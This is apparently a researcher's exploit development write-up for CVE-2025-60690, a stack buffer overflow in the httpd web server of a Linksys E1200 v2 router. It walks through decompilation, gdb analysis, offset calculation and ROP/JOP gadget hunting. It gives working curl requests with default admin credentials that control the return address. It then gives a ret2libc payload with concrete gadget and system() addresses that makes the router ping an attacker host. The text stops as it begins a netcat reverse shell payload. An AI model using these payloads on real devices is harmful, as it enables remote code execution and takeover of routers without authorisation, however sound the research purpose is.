

# CVE-2025-60690

## Overview of each section

1. **Ghidra**

* Disassembly of the `get_merge_ipaddr` function

2. **`apply_cgi` + `validate_lan_ipaddr` source code analysis  + payload generation**&#x20;

* Analysis of the source code to understand how we can reach the vulnerable function
* Generation of the initial working payload to control values in the buffer&#x20;

3. **`strcat` function analysis + manual breakpoints**

* `httpd` binary patching method to set a manual breakpoint
* Identification of the argument values passed to the vulnerable **strcat** function
* Calculation of the offset between buffer and return address

4. **Investigating buffer oveflow**

* Generation of payload to overwrite the return address and trigger a **SIGSEGV**

5. **Investigating ret2 methods + ROP/JOP**

* Overview of basic ROP/JOP gadgets
* Enumerate gadgets from `/lib/libc.so.0`&#x20;

6. **Exploit development (METHOD 1: JOP/ROP + ret2libc)**
7. **Exploit development (METHOD 2: JOP/ROP to shell-code)**


## 1. Ghidra

### 1.1 `get_merge_ipaddr`

<figure><figcaption></figcaption></figure>

```c
undefined4 get_merge_ipaddr(undefined4 param_1,char *param_2)

{
  char *__src;
  size_t sVar1;
  int iVar2;
  char acStack_48 [32];
  
  *param_2 = '\0';
  iVar2 = 0;
  while( true ) {
    snprintf(acStack_48,0x1e,"%s_%d",param_1,iVar2);
    __src = (char *)get_cgi((ACTION)acStack_48);
    if (__src == (char *)0x0) {
      __src = "0";
    }
    strcat(param_2,__src);
    if (iVar2 == 3) break;
    iVar2 = iVar2 + 1;
    sVar1 = strlen(param_2);
    param_2[sVar1] = '.';
    (param_2 + sVar1)[1] = '\0';
    if (iVar2 == 4) {
      return 1;
    }
  }
  return 1;
}

```

### 1.2 Refined `get_merge_ipaddr`

```c
undefined4 get_merge_ipaddr(undefined4 a0, char *a1)

{
  char *__src;
  size_t sVar1;
  int iVar2;
  char acStack_48 [32];
  
  *a1 = '\0';
  // iVar2 = 0;
  
  // while(true) {
  for (int i=0; i<4; ++i) {
    snprintf(acStack_48,0x1e,"%s_%d",a0,i); //snprintf(acStack_48,0x1e,"%s_%d",param_1,iVar2);
    __src = (char *)get_cgi((ACTION)acStack_48);
    if (__src == (char *)0x0) {
      __src = "0";
    }
    strcat(a1,__src);
    
    //if (iVar2 == 3) break;
    if (i == 3) break;
    //iVar2 = iVar2 + 1;
    
    sVar1 = strlen(a2);
    a1[sVar1] = '.';
    (a1 + sVar1)[1] = '\0';

    //if (iVar2 == 4) {
    //  return 1;
    //}
  }
  return 1;
}
```

### 1.3 Analysis&#x20;

> Keep in mind that we are working with the **MIPS** assembly for this binary. The instructions and concepts are different from common **x86**, **x64** or **ARM** assembly

We can see that the `param_1` and `param_2` variables corresponds to the 1st and 2nd arguments passed to the `get_merge_ipaddr` function. As what we can understand from MIPS assembly, this relates to the `a0` and `a1` registers in the current function (`get_merge_ipaddr`)

However, this does not necessarily mean the same for the nested function calls within the current `get_merge_ipaddr` function (eg. `strcat`, `get_cgi`)

Hence, there may be a situation where the disassembly listing view shows a particular `param_x` variable (corresponding to `ax` register) passed in as an argument to a nested function call, but that does not actually correspond to the **x-positioned** argument to that function call

#### **1.3.1 Other findings**

We can discover that the 2nd argument to the `get_merge_ipaddr` function is passed in as the 1st argument to the nested `strcat` function. Take a look at the following disassembly code (`objdump`):

```mipsasm
41f934:       00a08821        move    s1,a1 #1
...
41f994:       02202021        move    a0,s1 #2
41f998:       0320f809        jalr    t9 #3
```

1. _**(#1)**_ Move `a1` to `s1`&#x20;

* Moves the value of the 2nd argument to the `get_merge_ipaddr` function to the `s1` register

2. _**(#2)**_ Move `s1` to `a0`&#x20;

* `a0` (value from `s1`) indicates the 1st argument to the following function call (`strcat`)

3. _**(#3)**_ Calls the `strcat` function (address stored in temporary register `t9`)

#### **1.3.2 Important notes from each section (Ghidra)**

1. **Disassembly**

* The `a0` to `aX` registers indicates the exact values passed to each of the nested function calls

2. **Decompiled** **code**

* The `param_1` and `param_2` variables indicates the 1st and 2nd argument to the current function
* The _source of truth_ of argument passing should come from the `a0`, `a1`, `an`, etc. registers in the disassembly, rather than the `param_X` variable naming in decompiled code

## 2. `apply_cgi` source code analysis + initial HTTP  request generation

In this section, I will present the following:

1. Working HTTP POST request that will allow us to reach the vulnerable portion of the code
2. The explanation of each data parameters used

### **2.1 Working request format to write to buffer**

> Note: The basic token value **YWRtaW46YWRtaW4=** is the base64-encoded string of the value **admin:admin**

**cURL**

* Automatically handles the following request headers: `Host` and `Content-Length`


```shellscript
curl -X POST http://192.168.1.1/apply.cgi \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Authorization: Basic  YWRtaW46YWRtaW4=" \
--data "action=Apply&lan_ipaddr=4&lan_ipaddr_0=lan0&lan_ipaddr_1=lan1&lan_ipaddr_2=lan2&lan_ipaddr_3=lan3&lan_netmask=x" -v
```


**Netcat**


```shellscript
POST /apply.cgi HTTP/1.1
Host: <router>
Content-Type: application/x-www-form-urlencoded
Authorization: Basic  YWRtaW46YWRtaW4=
Content-Length: xxxx

action=Apply&lan_netmask=&lan_ipaddr=4&lan_ipaddr_0=lan0&lan_ipaddr_1=lan1&lan_ipaddr_2=lan2&lan_ipaddr_3=lan3
```


```shellscript
$ printf "$(cat cve-2025-60690-payload.txt)" | nc -C <router> 800
```

### **2.2 Explanation of each data parameter**

1. **`action=Apply`**&#x20;

* Our intended flow (to call the `validate_lan_ipaddr` function) is enclosed by a few IF statements:

```c
pcVar1 = (char *)get_cgi(0x49f35c); // 0x49f35c -> "skip_amd_check"
if (pcVar1 == (char *)0x0) {
  pcVar1 = (char *)get_cgi(0x49f36c); // 0x49f36c -> "action"
  if (pcVar1 == (char *)0x0) {
    pcVar1 = "";
  }
      iVar2 = strcmp(pcVar1,"Apply");
      if (((iVar2 == 0) || (iVar2 = strcmp(pcVar1,"tmUnblock"), iVar2 == 0)) ||
         (iVar2 = strcmp(pcVar1,"hndUnblock"), iVar2 == 0)) {
       
       // ... intended code flow
       }
     else {
     
     // ...
            wfputs("<!--",param_1);
            wfprintf(param_1,"Invalid Value!<br>",uVar4,param_4);
            wfputs("-->",param_1);
            puVar6 = (undefined1 *)0x0;
            wfflush(param_1);
     }
```

* The following conditions must be met:

&#x20;      a. `skip_amd_check` must not be defined in the data parameter

&#x20;      b. `action` must be one of the following values: "**Apply**", "**tmUnblock**", "**hndUnblock**"

* Returns **\<!--Invalid Value!\<br> -->** if the _else_ block is taken instead


2. **`lan_ipaddr=4`**&#x20;

* The value appears to specify the number of data parameters&#x20;
  * Eg. value of 4 -> index up to `lan_ipaddr_3`&#x20;
  * This is simply a speculation from what have been observed from the HTTP traffic when interacting with the web page
* The following line represents the `validate_lan_ipaddr` function call in Ghidra:

```c
*(code *)ppuVar5[2])(param_1,pcVar3);
```

* Focus on the following code snippet (within our intended code flow)

```c
    ppuVar5 = &variables;
    do {
      pcVar3 = (char *)get_cgi((ACTION)*ppuVar5);
      if (pcVar3 != (char *)0x0) {
        if (((*pcVar3 == '\0') && (ppuVar5[4] != (undefined *)0x0)) ||
           ((code *)ppuVar5[2] == (code *)0x0)) {
          nvram_set(*ppuVar5,pcVar3,ppuVar5,nvram_set);
        }
        else {
          (*(code *)ppuVar5[2])(param_1,pcVar3);
        }
      }
      ppuVar5 = ppuVar5 + 6;
    } while (ppuVar5 != &gozila_actions);
```

* Notice that the `ppuVar5` variable is assigned to the pointer to `variables`

#### **\&variables**

<figure><figcaption></figcaption></figure>

The following line calls the `get_cgi` function on the first value in `&variables` ("**lan\_ipaddr**"):

```c
pcVar3 = (char *)get_cgi((ACTION)*ppuVar5);
```

* Thus, the **lan\_ipaddr** CGI parameter has to be specified in order for our code flow to reach our intended function


3. **`lan_netmask=x`** (can be empty)

We are now able to call the `validate_lan_ipaddr` function. The following code snippet shows the first few lines:


```c
  __s2 = (char *)get_cgi(0x49d2c0); // 0x49d2c0 -> "lan_netmask"
  if (__s2 == (char *)0x0) {
    return;
  }
  get_merge_ipaddr(*param_3,acStack_70);
  // ...
```


* The CGI data parameter `lan_netmask` will be checked for existence
  * Return from function if it does not exist
* Hence, we simply have to specify this parameter (even with an empty value) in order to pass the checks, and proceed to the `get_merge_ipaddr` function


4. **`lan_ipaddr_0=lan0&lan_ipaddr_1=lan1&lan_ipaddr_2=lan2&lan_ipaddr_3=lan3`**

&#x20;Range of values that are directly inserted to the stack without bounds checking. Let's refer back to a code snippet from the (refined) `get_merge_ipaddr` function:


```c
  for (int i=0; i<4; ++i) {
    ...
  
    snprintf(acStack_48,0x1e,"%s_%d",a0,i); //snprintf(acStack_48,0x1e,"%s_%d",param_1,iVar2);
    __src = (char *)get_cgi((ACTION)acStack_48);
    if (__src == (char *)0x0) {
      __src = "0";
    }
    strcat(a1,__src);
    
    ...
  }
```


We are able to gather the following information:

* **snprintf** function concats the string values with the specifier format: `a0_i` to the **acStack\_48** variable
* the `a0` variable is passed in as the 1st argument to `get_merge_ipaddr`, while the variable `i` iterates from 0 to 3
* the concatenated string will be used as a CGI parameter key to retrieve a value, and store it into the `__src` variable
* the `__src` variable will than be concatenated into the address pointed to by `a1` (2nd argument to `get_merge_ipaddr`) in the vulnerable **strcat** function

**How are we able to identify the parameter name (**`lan_ipaddr_n=X`, eg. `lan_ipaddr_0=X`**)?**

a. `lan_ipaddr=X` parameter (from previous findings)

b. [Analysis](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/5.-reverse-engineering-+-exploit-development/exploit-research#id-3.5-web-page-port-80-traffic-analysis) of HTTP POST request generated by web form:

```
lan_ipaddr_0         192
lan_ipaddr_1         168
lan_ipaddr_2         1
lan_ipaddr_3         1
```

c. [Analysis](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/5.-reverse-engineering-+-exploit-development/exploit-research/cve-2025-60690#id-3.-strcat-function-analysis--manual-breakpoints) of argument values passed to the **strcat** function using gdb+gdbserver setup

## 3. `strcat` function analysis + manual breakpoints

> Refer to the _**GDB, gdbserver**_ section under the _**Expoit research**_ page, for more information on the setup process

Refer to the following disassembly snippet:

**Disassembly (Ghidra)**:

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

<figure><figcaption></figcaption></figure>

**Disassembly (gdb)**:


```mipsasm
41f900:  sw      ra,96(sp)

...

41f97c:	 jalr    t9 # call to "get_cgi" function
41f980:	 move    a0,s2 # delay slot: register s2 (1st argument to "get_cgi") will contain the CGI parameter name

...

41f998:  jalr    t9 # call to "strcat" function
41f99c:  move    a1,v0 # delay slot: register v0 (2nd argument to "strcat") will contain the CGI parameter value
```


In order to identify the relevant values, we can set a breakpoint@**0x0041f99c**, and print the values of the following registers:

1. &#x20;`ra` at address `$sp+96`
2. `a0` and `v0` to identify the 1st and 2nd argument to the **strcat** function

* Notice that the value in the `v0` register is moved to the a1 register in the delay slot
* As we are not able to reliably predict when the delay slot on line **0x41f99c** will run, we can set a breakpoint before the **strcat** function call (**0x0041f99c**), and retrieve the value directly from the `v0` register instead

3. `s2` to identify the CGI parameter name

### **3.1 Set custom breakpoint (patch method)**

#### 3.1.1 Patch command

```shellscript
$ printf '\x0d\x00\x00\x00' | dd of=/tmp/httpd bs=1 seek=$((0x0001f99c)) conv=notrunc
```

* `of=/tmp/httpd`: output file
* `bs=1`: byte-size set to 1
* `seek`: offset from the httpd base (**0x00400000**). Refer to the [section](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/5.-reverse-engineering-+-exploit-development/exploit-research#id-2.4-memory-address-enumeration-httpd)

#### 3.1.2 Run the patched binary (device) + attach to gdbserver


```console
# ps w | grep httpd
  325 root       3864 S   httpd
# kill -15 325

# /tmp/httpd
# ps w | grep httpd
  xxx root       3864 S   httpd

# /tmp/gdbserver 192.168.1.1:<port> --attach xxx
```


### **3.2 Analysis of register values (`a0`, `v0`)**

Next, we can send a HTTP POST request to the **httpd** web server using what we have discovered from previous [findings](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/5.-reverse-engineering-+-exploit-development/exploit-research/cve-2025-60690#id-2.1-working-request-format-to-write-to-buffer):


```shellscript
curl -X POST http://192.168.1.1/apply.cgi \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Authorization: Basic  YWRtaW46YWRtaW4=" \
--data "action=Apply&lan_ipaddr=4&lan_ipaddr_0=lan0&lan_ipaddr_1=lan1&lan_ipaddr_2=lan2&lan_ipaddr_3=lan3&lan_netmask=x" -v
```


* Notice the parameter value of **lan0** to the `lan_ipaddr_0` key

From a [separate](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/5.-reverse-engineering-+-exploit-development/miscellaneous#id-4.-connect-to-a-remote-shell-on-the-device-via-dropbear) terminal, send a manual [**SIGSTOP**](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/5.-reverse-engineering-+-exploit-development/exploit-research#id-4.2-manual-sigstop-signal-to-halt-the-running-process-gdb) signal to the **httpd** process:


```console
# ps w | grep httpd
<PID> root     xxx T /tmp/httpd

# kill -STOP <PID>
```


Now, we can view the values:


```shellscript
# get the address of the start of the buffer (the destination for strcat)
gdb> p/x $a0

# value of the 2nd argument to the "strcat" function
gdb> x/s $v0

# calculate the address where the return address is stored
gdb> p/x $sp + 96

# name of the CGI parameter key (eg. "lan_ipaddr_0")
gdb> x/s $s2
```


<figure><figcaption></figcaption></figure>

Take note of the following:

1. The return address for the current function (**get\_merge\_ipaddr**: `$sp+96 = 0x7ffa4e68`) is at a lower memory address than the buffer we are able to write from the **strcat** function (`p/x $a0 = 0x7ffa4e88`)

* This presents us with an issue when we are attempting to control the `ra` register
* Refer to the next section for more information on this issue

2. Since the delay slot (line **0x41f99c**) is not taken as a result of our custom breakpoint, the **$a1** register will not contain the actual value to the **strcat** function

* &#x20;Instead, we can view the expected content of the **$a1** register via the **$v0** register, which will contain the value we supplied to the **lan\_ipaddr\_0** parameter in our HTTP POST request (eg. "lan0" in our example)
* note that the **$v0** register contains the return value from the previous function that was called, which happens to be **get\_cgi**&#x20;

3. We can also view the name of the CGI parameter that we can control by reading the value in the **$s2** register

* the value of this CGI parameter is directly concatenated to the buffer
* with our breakpoint example, the value will be "lan\_ipaddr\_0"

## **4 Investigating buffer overflow (`get_merge_ip_addr` function)**&#x20;

> The value of **$sp** is in context of the `get_merge_ipaddr` function&#x20;
>
> The value **ra** refers to the stack portion that is restored to the **ra** register

### **4.1 Stack layout constraints**

Normally, we would want to overwrite the return address of the current function (`get_merge_ipaddr`). However we are presented with an issue:

* The _**buffer address is higher than the stack portion**_ that is used to restore to **s0-s7** and **ra**
* In the MIPS architecture, values are written towards higher memory address. Thus, this means that the stack layout physically prevents us from overwriting the return address of the current (`get_merge_ipaddr`) function&#x20;

To bypass this issue, we attempt to overwrite stack portions (that restores to **ra**, **s0-s7**) of the calling function instead (`validate_lan_ipaddr`).&#x20;

Refer to the following disassembly code snippet from the end of the `validate_lan_ipaddr` function:


```shellscript
$ /usr/mipsel-linux-gnu/bin/objdump device-bins/httpd -d --start-address=0x004285f4 --stop-address=0x0042861c
```


<figure><figcaption></figcaption></figure>

We can understand the following:

* Line **0x4285f4**: The offset value **$sp+132** is used to restore the **$ra** register

Let's perform a few calculations to calculate the offset values:

```shellscript
gdb> p/x $a0 - $sp
0x80

gdb> p/x 0x68 + 132
0xec

gdb> p/x 0xec - 0x80
0x6c 
gdb> p/d 0x6c
108
```

**Stack values/offsets calculation**:

&#x20;  a. Buffer (**$a0**) - $sp = 0x80 ⇒ buffer = $sp + 0x80

&#x20;  b. Stack address portion restored to **ra** in `validate_lan_ipaddr`: $sp+0x68+132 = $sp + 0xec

&#x20;      ⇒  $sp+_0x68_ happens when `merge_ip_addr` function returns

&#x20;      ⇒ _132_ is from the `lw ra, 132(sp)` instruction we have found before

&#x20;  c. Offset between buffer and **ra** (`validate_lan_ipaddr`): 0xec - 0x80 = 0x6c = **108** (decimal)

### **4.2 Working payload to overwrite & control `ra` register value (in `validate_lan_ipaddr` function)**


```shellscript
curl -X POST http://192.168.1.1/apply.cgi \
-H "Content-Type: application/x-www-form-urlencoded" \
-H "Authorization: Basic YWRtaW46YWRtaW4=" \
--data "action=Apply&lan_ipaddr=4&lan_ipaddr_0=a&lan_ipaddr_1=b&lan_ipaddr_2=c&lan_ipaddr_3=$(python3 -c 'print("A" * 102 + "XXXX")')&lan_netmask=x" 
```


Take note of the following:

* The offset padding value used in the payload is _102_, instead of _108_ in the payload: `"A" * 102`
  * We will find out the reason for this in the explanation below
* The values supplied to the `lan_ipaddr_X` CGI parameters
  * `a`, `b`, `c`, `python3 -c ...`


#### **1. Testing overwrite of the `ra` register (**`validate_lan_ipaddr`**)**

For this section, assume a break point is set on the `return` (**0x00428614**) line in the `validate_lan_ipaddr` function:

```mipsasm
00428614 08 00 e0 03     jr         ra
```

```shellscript
$ printf '\x0d\x00\x00\x00' | dd of=/tmp/httpd bs=1 seek=$((0x0028614)) conv=notrunc
```

* `of=/tmp/httpd`: output file
* `bs=1`: byte-size set to 1
* `seek`: offset from the httpd base (**0x00400000**). Refer to the [section](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/5.-reverse-engineering-+-exploit-development/exploit-research#id-2.4-memory-address-enumeration-httpd)

After the POST request is sent, we are able to use the offset **$sp-0x68+0x80** to locate the buffer and the subsequent overwritten values on the stack

* The value `0x68` represents the frame size (that is used to increment the **$sp** at the end of the `get_merge_ipaddr` function right before it returns). Thus, it is subtracted from the current **$sp** to bring us back to the context of the `get_merge_ipaddr` function
* The value `0x80` is the relative offset between the buffer and **$sp**&#x20;

```shellscript
gdb> x/s $sp-0x68+0x80
```

<figure><figcaption></figcaption></figure>

* Notice the custom payload value passed to the **lan\_ipaddr\_3** parameter:

```shellscript
$(python3 -c 'print("A" * 102 + "XXXX")')
```

* We have identified previously that the offset between the buffer and **ra** (`validate_lan_ipaddr`) is **0x6c** = **108 (decimal)**
* From the stack value shown in the memory analysis, we can see that buffer contains the value "a.b.c." (length 6) and subsequent 'A's
  * this is because the first 3 **lan\_ipaddr\_X** parameters (**lan\_ipaddr\_0** to **lan\_ipaddr2**) has the value "a", "b" and "c" respectively, which are merged with a dot (.)&#x20;
  * Thus, the payload willl accommodatesfor the length of the merged string ("a.b.c."), by decrementing the padding value by 6 ⇒ 108 - 6 = 102
* "XXXX" will be stored to the **ra** register

```shellscript
gdb> x/s $sp-0x68+0x80+0x6c
```

<figure><figcaption></figcaption></figure>

> We are also able to control the `s0` to `s6` register values (note: "X"=0xA):

<figure><figcaption></figcaption></figure>

#### 2. Forcing SIGSEGV (segmentation fault)

Now, we can attempt to execute the request on the binary without any break points

* A **SIGSEGV** error is encountered immediately after the request is sent:

<figure><figcaption></figcaption></figure>

Notice the error message:

```bash
[!] Cannot access memory at address 0x58585858
```

* &#x20;`0x58585858` -> "XXXX", which is the value we have written

<mark style="color:$primary;">**HOORAY!**</mark> This tells us that we are able to successfully control the return address!

## 5. Investigating ret2 methods + ROP/JOP

### 5.1 Search locations

1. Main binary (`httpd`)

* We will not search for gadgets within the main binary as its address space only consists of 3 bytes
* This means that there will be `0x00` for the 1st byte (eg. `0x00123456`), which represents a null byte, and constitutes a bad character when working with our payload&#x20;

2. Loaded libraries

```shellscript
gdb> info proc mappings
Mapped address spaces:

	Start Addr   End Addr       Size     Offset  Perms   objfile
	  0x400000   0x4b4000    0xb4000        0x0  r-xp   /tmp/httpd
	  0x4f4000   0x4fa000     0x6000    0xb4000  rw-p   /tmp/httpd
	  0x4fa000   0x513000    0x19000   0x4fa000  rwxp   [heap]
	0x2aaa8000 0x2aaad000     0x5000        0x0  r-xp   /lib/ld-uClibc.so.0
  ...
```

* `/lib/ld-uClibc.so.0`&#x20;
* `/usr/lib/libnvram.so`
* `/usr/lib/libshared.so`
* `/usr/lib/libpolarssl.so`
* `/usr/lib/libexpat.so`
* `/lib/libgcc_s.so.1`
* `/lib/libc.so.0`

### **5.2 Common search patterns**

1. Load from stack to registers `a0` and `t9` (or even `ra`) followed by jump to `t9`

> Take note that some of the gadgets may have delay slots, which will execute BEFORE the jump instruction&#x20;


```mipsasm
lw     a0, 0x20(sp)
lw     t9, 0x24(sp)
jr     ra
```


* This gadget allows us to directly call a function at a specified address (eg. `libc`), with control of the first argument (relative stack position)


2. Load from stack position (relative to the stack pointer) to a register (eg. `s0`)

```mipsasm
lw    s0, 96(sp)
```

*   Load value from a predefined offset (eg. 96) from the stack into the `s0` register

    * the value in the resulting register  `s0` can for example, store a controlled memory address.
    * this address can be directly moved into a register (eg. `t9`), before a subsequent jump is executed (refer to next gadget)


3. Load from register (we can control) to `t9`, followed by jump to `t9`

```mipsasm
move     t9, s0
jalr     t9
```

* This gadget allows us to jump to custom memory address values stored in known registers (eg. `s0`)


4. Load predictable memory address values (offset from known stack pointer value) to a register (eg. `s0`)

```mipsasm
addiu s0, sp, 0xXXXX
```

### **5.3 Exploit methods**&#x20;

Before we continue, I would like to discuss 2 possible methods that we can use to achieve our final goal of Remote-Code Execution (RCE):

1. **JOP/ROP + ret2libc**:&#x20;

* **JOP/ROP**: utilize gadgets to load `a0` register with string argument to execute
* **ret2libc**: directly call the `system` function (`libc`), with a controlled argument (from JOP/ROP)


2. **JOP/ROP to shell-code**

* series of JOP/ROP gadgets to load relevant register values&#x20;
* end goal will be to eventually call a shell-code stored on a known offset on the stack
* shell-code can contain a call to relevant `libc` libraries, etc.



**Tools:** ROPGadget, manual search (disassembly)

* Other possible tool(s): `ropper`

1. First, lets run the **ROPGadget** tool on the `/lib/libc.so.0` binary, and save the output to a file:

```shellscript
(python3-venv)$ ROPgadget --binary /lib/libc.so.0 > libc-ropgadget.txt
```

We can use the general search command:


```shellscript
$ cat libc-ropgadget.txt | grep -P '...regex pattern'
```


#### **5.3.1 Method 1: JOP/ROP + ret2libc**

> The 1st method (JOP/ROP + ret2libc) will be preferred over the 2nd, as it more straightforward, and does not have to deal with some known issues: of  shell-code encoding, cache incoherency, etc. (discussed below)

**Gadget 1**: Increment value of **$sp**, to allow string argument (**$a0**) to appear at the end of payload

Recall that the **$a0** register will store our string argument to the system function. Thus, we need to put the string at the end of our payload, to prevent the null byte (bad character) from interfering

* For this to happen, we need to increment the **$sp** to allow future gadgets to be able to use a higher value **$sp** to locate the string argument (to write to **$a0**)
* As we are looking for an instruction pattern that increments the stack-pointer, it will likely appear at the end of a function during the return statement (as a delay slot). Thus, we have to include the search for a jump instruction before our **$sp** increment instruction (likely instruction `jr $ra`)
* Expected patterns to match:

```mipsasm
jr $ra ; addiu $sp, $sp, 0xXXXX
```


```perl
'lw\h+\$ra,\h+(0x[0-9a-fA-F]+)\(\$sp\).*?jr\h+\$ra.*?addiu\h+\$sp\h*,\h*\$sp,\h*0x\d+'
```


<figure><figcaption></figcaption></figure>


```shellscript
$ /usr/mipsel-linux-gnu/bin/objdump libc.so.0 -d --start-address=0x32040 --stop-address=0x3204c
```


<figure><figcaption></figcaption></figure>

Important instructions:

1. `lw ra,72(sp)`: Load the word (4 bytes) value from **$sp**+72 to **$ra**

* Allows us to control the memory address that is written to **$ra**
* To jump to next gadget

2. `jr ra`: Jump to address stored in **$ra**
3. `addiu sp,sp,80`: Delay slot that increments **$sp** by 80


**Gadget 2**: Load known stack offset value into register `$a0` , and subsequently jump to the **system** function

* Expected pattern to match:

```mipsasm
 addiu $a0, $sp, 0xXXXX ; move $t9, $sX ; jalr $t9
```


```perl
'addiu\h+\$a0,\h*\$sp,\h*(0x[0-9a-fA-F]+).*?move\h+\$t9,\h+\$s\d.*?jalr\h+\$t9'
```


<figure><figcaption></figcaption></figure>


```shellscript
$ /usr/mipsel-linux-gnu/bin/objdump libc.so.0 -d --start-address=0x158fc --stop-address=0x1590c
```


<figure><figcaption></figcaption></figure>

> Note that we will jump to address **0x158fc** instead of **0x15900**, as **0x15900** will result in a null character (`0x00`) when added with **libc** base, which constitutes a bad character

Important instructions:

1. `addiu a0,sp,24`: increment stack-pointer by 24, and move the calculated value into the **$a0** register
2. `move t9,s0`: move the value of **$s0** into **$t9**

* Recall that we are able to control the value of the **$s0** register from the return from the **validate\_lan\_ipaddr** function
* This will aid us in calling the final **system** function

3. `jalr t9`: jump to address in **$t9**

#### **5.3.2 Method 2: JOP/ROP to shell-code (PENDING UPDATE)**

We attempt to look for JOP/ROP gadgets within the `lib.so.0` binary

**Gadget 1: `addiu` from stack offset to a controlled register, jump to 2nd gadget (from controlled register)**

* Perl regex for pattern (grep `-P` flag):  `addiu $sX, $sp, 0xAAAA`&#x20;


```shellscript
$ cat httpd-ropgadget.txt | grep -P 'addiu\h+\$s1,\h+\$sp,\h+0x[0-9a-fA-F]+'
```


...

* Starting address of found code portion: **0x00481d1c** (`get_device_settings`)

```shellscript
$ /usr/mipsel-linux-gnu/bin/objdump -d --disassemble=get_device_settings
```

...

Important instructions:

1. ...

**Gadget 2: `move` from a controlled register to register `t9`, followed by a jump to `t9`**

* Perl regex for pattern (grep `-P` flag): `move $t9, $sX ;`

```shellscript
$ cat httpd-ropgadget.txt | grep -P 'move\h+\$t9,\h+\$s\w\h+;'
```

...

* Starting address: **0x00474b44 (**`set_wlan_radio_security`**)**

```shellscript
$ /usr/mipsel-linux-gnu/bin/objdump -d --disassemble=set_wlan_radio_security httpd
```

...

Important instructions:

1. ...

## 6. Exploit development (METHOD 1: JOP/ROP + ret2libc)

### 6.1 Finding address of `system` function

Recall from previous [findings](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/5.-reverse-engineering-+-exploit-development/exploit-research#id-1.2-checksec) that our device employs partial ASLR that does not randomize the addresses in our system library functions (**libc**). Thus, we will be able to find the fixed and predictable address of the `system` function

1. Retrieve absolute `system` function address

```shellscript
# find system
gdb> p system
gdb> info address system

# find libc
gdb> info proc mappings
gdb> info address system
```

2. Retrieve relative address offset from start of **libc**

```shellscript
$ readelf -s /lib/libc.so.0 | grep system
$ objdump -T libc.so.0 | grep system
```

* For this approach, we have to manually calculate the absolute `system` address by adding together the start address of **libc** and the offset value retrieved

The relative offset value of the **system** function from start of **libc** is **`0x29ea0`**

### 6.2 Crafting the payload

Let's recall information that we have gathered:

1. ROP/JOP gadgets


```shellscript
lw ra,72(sp)
jr ra
addiu sp,sp,80
```



```shellscript
addiu a0,sp,24
move t9,s0
jalr t9
```


2. **libc system** function address
   * `0x2ad61ea0`

#### **Important considerations**

a. Stack frame size of each functions involved&#x20;

* get\_merge\_ipaddr: `0x68`&#x20;
* validate\_lan\_ipaddr: `0x88`

b. Function context in which each gadget will be executing (crucial for relative stack offset calculation

* Gadget 1's execution context:  `validate_lan_ipaddr` function
* Gadget 2's execution context: `validate_lan_ipaddr` function

c. Bad characters

* Characters that must not be included in the payload
  * eg. gadget memory address, string arguments, etc.
* As we are inserting into the buffer via the **strcat** function, the only bad character will most likely only be the null terminator value (`0x00`)

#### **Relative offset values from the buffer (to overwrite)**

> Before we continue, let's recall the following values:

* Offset between buffer and **sp**: `0x80`

Notice that both of the gadget's execution context is in the `validate_lan_ipaddr` function. We will also need to account for the frame size of both the `validate_lan_ipaddr` and `get_merge_ipaddr` (**0x68** and **0x88**)

* The `addiu` function at the end of the `validate_lan_ipaddr` function will execute as a delay slot following the jump (`jr ra`) to the 1st gadget

The following presents the calculated offset values _**from the buffer**_ to reach each respective payload values:

a. **0x6c**: return address of the **validate\_lan\_ipaddr** function ⇒ address of gadget 1 (`ra`)

b.  **-0x80+0x68+0x88+0x48 = 0xb8** ⇒ address of gadget 2

* value of **0x48** is taken gadget 1

c. **-0x80+0x68+0x88+0x50+0x18 = 0xd8** ⇒ string argument to the system function (`a0`)

* value of **0x50** taken from gadget 1
* value of **0x18** taken from gadget 2&#x20;
* value of **0x88** taken from delay slot after jump at the end of **validate\_lan\_ipaddr**

d. **0x6c-28 = 0x6c-0x1c = 0x50** ⇒ address of the system function (`s0`)

Refer to the folloiwng diagram for an illustration of the stack layout, along with the relevant payload values:

<figure><figcaption></figcaption></figure>

> **NOTE**: we have to account for 6 characterss: `x.x.x.` from the first 3 **lan\_ipaddr** parameters

**(1) Python3 payload (ping attacker machine)**


```shellscript
python3 -c 'import sys; sys.stdout.buffer.write(b"A"*74 + b"\xa0\x1e\xd6\x2a" + b"A"*24 + b"\x44\xa0\xd6\x2a" + b"A"*72 + b"\xfc\xd8\xd4\x2a" + b"A"*28 + b"ping -c 3 <attacker_ip>")'
```


**(2) Python3 payload (Netcat reverse shell)**

* The shell commands will be explained in later [sections](https://jarrettgxz-sec.gitbook.io/penetration-testing-ethical-hacking-concepts/hardware-exploitation/research-projects/linksys-e1200-v2/6.-post-exploitation-and-persistence#id-6.1-gaining-a-shell-with-additional-binaries)


```shellscript
